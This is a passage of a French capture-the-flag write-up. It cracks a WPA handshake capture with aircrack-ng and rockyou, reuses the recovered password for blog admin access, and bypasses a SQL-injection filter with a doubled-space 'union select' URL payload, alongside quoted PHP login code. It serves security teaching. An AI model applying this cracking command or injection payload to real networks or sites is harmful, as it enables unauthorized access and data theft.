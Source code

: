 Ouvert avec Wireshark le fichier cap est une capture d'un trafic 802.11 (wifi) quand à rockyou c'est la wordlist bien connue... Il faut donc lancer *aircrack-ng* à l'aide de ces deux fichiers :  

```bash
aircrack-ng -w rockyou.txt ctf.cap
```

Et ça tombe :  

```plain
                                 Aircrack-ng 1.2 beta3

                   [00:34:56] 3448372 keys tested (1674.08 k/s)

                          KEY FOUND! [ minion.666 ]

      Master Key     : CA 8E A6 F3 BB 7F 29 CD D9 F8 91 43 CC 26 2D B6
                       8C 1A 05 1A 39 67 94 5A 60 81 E6 6F FF 91 0F 28

      Transient Key  : 9E DD C0 66 D0 3B 99 A5 9F 41 D6 F9 40 95 55 04
                       B1 87 ED 42 24 1A A2 6C B3 C5 36 D2 62 46 AB 28
                       92 D6 09 8D B8 69 23 C7 EB 2E 01 0E CB BB 40 36
                       6F 11 68 CC 99 80 DF 36 FC 8D 8A 48 50 88 F9 C1

      EAPOL HMAC     : FB C1 48 13 17 D1 EA 23 FE CF 93 52 97 0B 83 4A
```

Avec le password WPA ainsi obtenu je m'attendais à trouver quelque chose d'utile dans le trafic [déchiffré](https://wiki.wireshark.org/HowToDecrypt802.11)... mais rien à voir.  

Et là les identifiants *admin* / *minion.666* permettent l'accès à l'administration du blog :p   

C'était donc à ce moment là que j'aurais du obtenir le flag des *Philippines*.  

Le substitution en place pour la protection SQL est plutôt facile à passer. Ainsi si on place deux espaces entre *union* et *select* ça passe :  

```plain
/blog/admin/edit.php?id=10%20union%20%20select%201,2,user(),3;
```

L'utilisateur MySQL courant est *mini@localhost* et la base *blog* mais on le sait déjà. Il faut fouiller dans la classe PHP *User* pour savoir où fouiller :  

```php
<?php
class User {
  const SITE= "BLOG";
  function login($user, $password) {
    $sql = "SELECT * FROM users where login=\"";
    $sql.= mysql_real_escape_string($user);
    $sql.= "\" and password=md5(\"";
    $sql.= mysql_real_escape_string($password);
    $sql.= "\")";
    $result = mysql_query($sql);
    if ($result) {
      $row = mysql_fetch_assoc($result);
      if ($user === $row['login']) {
        return TRUE;
      }
    }
    else 
      echo mysql_error();
    return FALSE;
    //die("invalid username/password");
  }
}
?>
```
